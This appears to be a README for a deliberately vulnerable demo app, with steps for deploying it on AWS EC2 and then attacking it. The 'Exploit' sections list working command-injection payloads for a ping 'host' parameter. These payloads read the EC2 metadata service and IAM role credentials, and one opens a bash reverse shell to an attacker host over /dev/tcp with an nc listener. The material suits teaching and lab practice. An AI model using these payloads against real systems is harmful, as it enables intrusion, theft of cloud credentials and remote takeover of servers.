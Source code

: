# Setup EC2
- Connect to EC2
```
ssh -i <pem-key>.pem ec2-user@<ec2-public-ip>
```

- Setup EC2
```
sudo yum install docker -y
sudo service docker start
sudo yum install git -y
```

- (Optional) Test docker
```
docker run hello-world
```

- Start application
```
git clone https://github.com/agusalberca/ssrf-demo-app.git
cd /home/ec2-user/ssrf-demo-app
sudo docker build -t ssrf-demo-app .
sudo docker run -d -p 3000:3000 --name ssrf-demo-app ssrf-demo-app
```

# Atacker machine

## Exploit 1
Post to endpoint `curl 'https://<victim-id>:3000/ping?host='` or use UI at `https://<victim-id>/:3000`:
- `8.8.8.8; ls -la`
- `8.8.8.8; curl -IL -s https://www.google.com`
- `8.8.8.8; curl -s 'http://169.254.169.254/latest/meta-data/'`
- `8.8.8.8; curl -s 'http://169.254.169.254/latest/meta-data/iam/security-credentials/'`
- `8.8.8.8; curl -s 'http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2_read_only_role'`

## Exploit 2
Run local listener: `nc -lvp 4444`

Post to endpoint `curl 'https://<victim-id>:3000/ping?host='` or use UI at `https://<victim-id>/:3000`:
- `8.8.8.8; bash -i >& /dev/tcp/attacker-ip/4444 0>&1`